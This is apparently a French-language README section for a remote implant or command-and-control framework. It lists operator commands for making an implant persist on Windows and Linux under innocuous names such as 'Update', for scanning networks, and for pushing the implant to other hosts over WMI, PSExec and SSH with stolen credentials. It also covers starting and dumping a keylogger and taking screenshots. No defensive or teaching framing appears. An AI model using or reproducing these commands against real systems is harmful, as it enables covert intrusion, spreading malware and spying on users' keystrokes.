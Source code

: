 ### Windows
```bash
# Service Windows
persistence service --name "Update" --path "C:\Windows\System32\implant.exe"

# Tâche programmée
persistence task --name "Check" --path "C:\implant.exe" --trigger startup

# Registre
persistence registry --key "HKCU\...\Run" --value "Update" --path "C:\implant.exe"
```

### Linux
```bash
# Cron job
persistence cron --command "/tmp/implant" --schedule "@reboot"

# Service systemd
persistence systemd --name "update" --path "/usr/bin/implant"
```

## 🌐 Mouvement Latéral

### Reconnaissance réseau
```bash
portscan 192.168.1.0/24                 # Scanner un réseau
portscan 192.168.1.10 -p 22,80,443      # Scanner des ports spécifiques
```

### Exécution à distance
```bash
# WMI (Windows)
wmi --hostname target.com --username admin --password pass --payload /path/implant.exe

# PSExec
psexec --hostname target.com --username admin --password pass --payload /path/implant.exe

# SSH (Linux/Unix)
ssh --hostname target.com --username root --password pass --payload /path/implant
```

## 🕵️ Post-Exploitation Avancée

### Keylogger
```bash
keylogger start        # Démarrer le keylogger
keylogger dump         # Récupérer les frappes
keylogger stop         # Arrêter le keylogger
```

### Screenshots
```bash
screenshot             # Prendre une capture d'écran
```
